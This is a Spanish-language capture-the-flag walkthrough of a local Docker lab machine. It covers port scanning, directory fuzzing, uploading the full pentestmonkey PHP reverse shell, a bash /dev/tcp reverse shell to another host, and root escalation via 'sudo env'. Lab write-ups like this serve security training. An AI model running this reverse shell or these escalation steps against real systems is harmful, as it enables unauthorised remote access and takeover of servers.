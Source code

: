 
Desplegamos el contenedor:

```Bash
bash auto_deploy.sh trust.tar
```

![Pasted image 20250129170850](https://github.com/user-attachments/assets/625fb784-e15c-4404-ae86-ef01257a99ea)

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![Pasted image 20250129171010](https://github.com/user-attachments/assets/dd899ca4-7367-4e67-b724-b5247bf4a2cb)

Hacemos Fuzzing:

```Bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,py,sh,txt
```

![Pasted image 20241211175541](https://github.com/user-attachments/assets/d2aa4234-257c-4b88-83b4-f56a04d8c076)

Nos metemos en los directorios:

![Pasted image 20241211175247](https://github.com/user-attachments/assets/f6f0ecf6-66cf-47d4-be28-38f9024ddd6a)

![Pasted image 20241211175322](https://github.com/user-attachments/assets/01415bb3-7c03-4bca-950d-32c9a12c8d78)

Creamos payload en PHP:

![Pasted image 20241211182210](https://github.com/user-attachments/assets/2b2bc2eb-1707-4941-9ed5-aa7b42a8b188)

Creamos shell.php:

```Bash
nano shell.php
```

![Pasted image 20241211175648](https://github.com/user-attachments/assets/f801fbc0-87d7-4942-9ed2-cf4dcae7b6c0)

Pegamos código PHP:

```PHP
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '172.17.0.2';
$port = 4444;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```


![Pasted image 20241211182142](https://github.com/user-attachments/assets/d04ee130-2196-4c6c-acf4-5f9e95ed8ae8)

Subimos archivo PHP:

![Pasted image 20241211180228](https://github.com/user-attachments/assets/b5f44bb0-c608-4b6f-9e66-e5ec14d04154)

![Pasted image 20241211180322](https://github.com/user-attachments/assets/9b8bc42b-891c-4b5a-a956-3ccfb9c5070a)

Archivo subido:

![Pasted image 20241211180338](https://github.com/user-attachments/assets/1a2e2bf2-bc74-4ff1-a31f-11b93de718d5)

Comprobamos el archivo:

![Pasted image 20241211180358](https://github.com/user-attachments/assets/579b21df-a931-4833-8e73-b44f304d94cf)

Escuchamos en el puerto 4444:

```Bash
nc -lnvp 4444
```

![Pasted image 20241211180521](https://github.com/user-attachments/assets/cd87fb8e-3271-4317-b853-37e4118fd95c)

Escuchamos en otro puerto 443:

```Bash
nc -lnvp 443
```

![Pasted image 20241211184613](https://github.com/user-attachments/assets/a6020122-6a29-456d-880f-c99dc085d5c8)

Pinchamos en el archivo:

![Pasted image 20241211180553](https://github.com/user-attachments/assets/b4501304-d08c-4b8a-91d2-8167957332d7)

Recibimos conexión:

![Pasted image 20241211185803](https://github.com/user-attachments/assets/91dcdc54-9b4a-4ab4-aec3-6722b9b31f54)

Metemos el siguiente comando para enviar la conexión a la otra shell:

```Bash
bash -c "bash -i >& /dev/tcp/10.0.2.42/443 0>&1"
```

![Pasted image 20241212095634](https://github.com/user-attachments/assets/3ffb442d-0bd5-45d5-93b6-b46618104f16)

Miramos la otra shell:

![Pasted image 20241211183437](https://github.com/user-attachments/assets/2da0a701-a278-4063-9c13-f0cc2378f7df)

Elevamos privilegios:

```Bash
sudo -l
```
![Pasted image 20241211183648](https://github.com/user-attachments/assets/b9749e94-50d0-41fc-8460-7a10b50780e6)

Elevamos con el comando env:

```Bash
sudo env /bin/bash
```

![Pasted image 20241211183830](https://github.com/user-attachments/assets/41a05934-b345-48d4-bdbd-3997fd8e8110)
